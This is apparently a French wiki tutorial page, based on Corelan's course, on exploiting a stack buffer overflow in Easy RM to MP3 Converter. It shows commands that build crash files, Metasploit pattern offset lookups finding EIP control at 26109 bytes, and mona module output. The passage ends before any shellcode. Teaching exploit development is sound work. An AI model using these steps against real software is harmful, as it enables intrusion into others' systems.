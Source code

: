 ```yaml
---
title: Corelan Exploit Course
permalink: /Corelan_Exploit_Course/
---
```


Partie 1: Stack Based Overflows
-------------------------------

Basé sur la première partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) sur le développement d'exploits.

On s'intéresse au logiciel **Easy RM to MP3 Converter** qui peut charger des fichiers. Si on charge un fichier trop grand on a un crash. Ce qui suit est un test avec Windows Seven Ultimate.

``` bash
python -c "print('A'*30000)" > crash.m3u
```

On utilise ensuite metasploit pour créer un pattern pour identifier l'offset (**Note**: pattern_create est limité en taille et des répétitions peuvent apparaître. Il est recommandé de se limiter à des patterns inférieurs à 1000 cararctères et de compléter avec des 'A'):

``` bash
python3 -c "print('A'*20000, end='')" > file.m3u
pattern_create.rb 10000 >> file.m3u
```

On trouve alors que la valeur d'EIP est *76483676*:

``` bash
pattern_offset.rb 76483676
[*] Exact match at offset 6109
```

On a donc un offset de 26109 caractères. On peut confirmer que tout fonctionne correctement avec ce bout de code:

``` bash
python -c "print('A'*26109+'BBBB'+'C'*(30000-26110))" > file.m3u
```

Par ailleurs qu'on a des C à partir de ESP. On peut donc injecter notre shellcode à l'intérieur. On utilise alors mona pour trouver un moyen de jumper sur ESP:

``` text
!mona modules
0BADF00D   !mona modules

           ---------- Mona command started on 2016-04-17 15:20:03 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x6b2b0000 | 0x6b316000 | 0x00066000 | True   | True    | True  |  True    | True   | 7.0.7600.16385 [MSVCP60.dll] (C:\Windows\system32\MSVCP60.dll)
0BADF00D    0x71440000 | 0x71472000 | 0x00032000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [WINMM.dll] (C:\Windows\system32\WINMM.dll)
```